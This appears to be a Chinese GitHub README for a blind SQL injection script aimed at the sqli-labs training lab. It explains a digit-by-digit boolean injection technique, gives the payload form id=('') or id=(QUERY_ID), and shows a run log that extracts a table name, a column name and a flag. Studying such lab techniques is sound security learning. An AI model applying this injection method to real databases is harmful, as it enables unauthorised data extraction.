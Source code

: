 # some_scripts
some common-used scripts
一些常用的脚本

# boolean_sqli_exp.py
sqli-lab less60之后的盲注脚本

*注入原理*
0. MYSQL提供字符串切片操作，如
```sql
# mysql> select ascii('1'), (select substring(ascii('1'),1,1)), (select substring(ascii('1'),2,1));
# +------------+------------------------------------+------------------------------------+
# | ascii('1') | (select substring(ascii('1'),1,1)) | (select substring(ascii('1'),2,1)) |
# +------------+------------------------------------+------------------------------------+
# |         49 | 4                                  | 9                                  |
# +------------+------------------------------------+------------------------------------+
```

1. id=1到id=12都有值，且值不同；可参考源码中的`["Dumb","Angelina","Dummy","secure","stupid","superman","batman","admin","admin1","admin2","admin3","dhakkan","admin4"]`，因此可根据页面内容反推id， 例如当页面出现admin2，就知道id=9

2. 因此，使用分段带出ascii码值的方式注入，即将每一个字符的ascii值分成百位、十位、个位，每一位范围都是0~9，记为QUERY_ID

3. 当请求`id=('') or id=(QUERY_ID)`，数据库会执行注入的查询语句，我们可根据页面的回显确定QUERY_ID是多少，即字符ascii值的每一位数字是多少。

4. 本方法降低运算量至3次。实际上，本关130次的限制是怎么来的呢？
```markdown
表名：len('P79FGLN0JK') = 10， 
列名：len('secret_Y1P6')= 11，
flag：len('uwpeCvsrLcadsa8P7wSn9Ix4') =24*
访问次数 = (10+11+24)x3 = 125 < 130
```
所以，我更加确定这是作者想要我们使用的方法
5. 附录常见注入算法的复杂度
```markdown
|算法|复杂度|
|逐位比较|理论128次|
|位运算|理论8次|
|二分法|理论8次|
|本方法|理论3次|
```
我们一位、一位地跑出结果，以获取得到第3位字母'c'为例，其十进制的ascii值
利用ascii(substring(query,3,1))中

*运行结果*

```
markdown
boolean_sqli_exp.py'
[-]current content is:L
[-]current content is:LR
[-]current content is:LR2
[-]current content is:LR20
[-]current content is:LR20P
[-]current content is:LR20PA
[-]current content is:LR20PAL
[-]current content is:LR20PALH
[-]current content is:LR20PALHC
[-]current content is:LR20PALHCD
[-]table_name is:LR20PALHCD
[-]current content is:s
[-]current content is:se
[-]current content is:sec
[-]current content is:secr
[-]current content is:secre
[-]current content is:secret
[-]current content is:secret_
[-]current content is:secret_D
[-]current content is:secret_DO
[-]current content is:secret_DOY
[-]current content is:secret_DOYB
[+]column_name is:secret_DOYB
[-]current content is:J
[-]current content is:Jl
[-]current content is:Jll
[-]current content is:Jll9
[-]current content is:Jll98
[-]current content is:Jll98P
[-]current content is:Jll98PQ
[-]current content is:Jll98PQ8
[-]current content is:Jll98PQ8U
[-]current content is:Jll98PQ8Uy
[-]current content is:Jll98PQ8Uyk
[-]current content is:Jll98PQ8Uyka
[-]current content is:Jll98PQ8Uykak
[-]current content is:Jll98PQ8Uykakv
[-]current content is:Jll98PQ8Uykakvp
[-]current content is:Jll98PQ8Uykakvpy
[-]current content is:Jll98PQ8Uykakvpyc
[-]current content is:Jll98PQ8Uykakvpyc9
[-]current content is:Jll98PQ8Uykakvpyc9S
[-]current content is:Jll98PQ8Uykakvpyc9SP
[-]current content is:Jll98PQ8Uykakvpyc9SPs
[-]current content is:Jll98PQ8Uykakvpyc9SPst
[-]current content is:Jll98PQ8Uykakvpyc9SPstP
[-]current content is:Jll98PQ8Uykakvpyc9SPstPB
[+]FLAG is:Jll98PQ8Uykakvpyc9SPstPB
```
